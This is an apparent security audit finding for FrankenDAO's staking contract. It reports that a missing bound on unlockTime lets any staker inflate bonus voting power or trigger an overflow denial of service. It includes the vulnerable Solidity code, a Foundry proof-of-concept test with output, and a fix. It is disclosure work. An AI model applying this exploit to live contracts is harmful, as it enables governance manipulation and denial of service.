 curiousapple

high

# [High-1] Lack of check on unlockTime allows any staker to inflate stakedTimeBonus to any amount

## Summary
[High-1] Lack of check on ``unlockTime`` allows any staker to inflate ``stakedTimeBonus`` to any amount

## Vulnerability Detail
FrankenDAO incentivizes stakers to lock their NFTs for a certain time, by giving them `stakedBonus` proportional to their unlock time.

This is regulated by 
`maxStakeBonusTime:` The maximum time one will earn bonus votes for staking for

`maxStakeBonusAmount:` The amount of bonus votes one will get if you stake for the max time

However, there is no check done if the `_unlockTime` passed in stake is under the limit of `maxStakeBonusTime`.

Allowing one to inflate the `stakedTImeBonus` and thereby their voting power.

```solidity
function stake(uint[] calldata _tokenIds, uint _unlockTime) 
----
function _stakeToken(uint _tokenId, uint _unlockTime) internal returns (uint) {
    if (_unlockTime > 0) {
      unlockTime[_tokenId] = _unlockTime; 
      uint fullStakedTimeBonus = ((_unlockTime - block.timestamp) * stakingSettings.maxStakeBonusAmount) / stakingSettings.maxStakeBonusTime; 
      stakedTimeBonus[_tokenId] = _tokenId < 10000 ? fullStakedTimeBonus : fullStakedTimeBonus / 2; 
    }

	..........
```
One can even exercise DOS and deny any new stakers by arithmetic overflow if they pass sufficiently large `_unlockTime`.

**Verification:**
```solidity
function testStaking__UnboundedUnlockTime() public {
        address owner = frankenpunks.ownerOf(PUNK_ID);

        vm.startPrank(owner);
        frankenpunks.approve(address(staking), PUNK_ID);

        uint[] memory ids = new uint[](1);
        ids[0] = PUNK_ID;

        (uint128 maxStakeBonusTime, ) = staking.stakingSettings();
        console.log(maxStakeBonusTime);
        staking.stake(ids, maxStakeBonusTime * 10000000000000000000);
        console.log(staking.getVotes(owner));
}

[PASS] testStaking__UnboundedUnlockTime() (gas: 328681)
Logs:
  2419200
  199999999999999986226
```

## Impact: High
This allows staker to inflate their voting power, in turn exposing the whole governance. An attacker can also exercise DOS attack by passing unlockTime so high that it would deny any new stake by overflow.

## Likelihood: High 
There is no need for any special circumstances for this to occur. Anyone with unstaked ``_frankenpunks`` or ``_frankenmonsters`` can do it.

## Code Snippet
https://github.com/sherlock-audit/2022-11-frankendao/blob/main/src/Staking.sol#L389-L394

## Tool used

Manual Review

## Recommendation
Consider adding check in the ``stake()`` that ``unlocktime ≤ maxStakeBonusTime``. 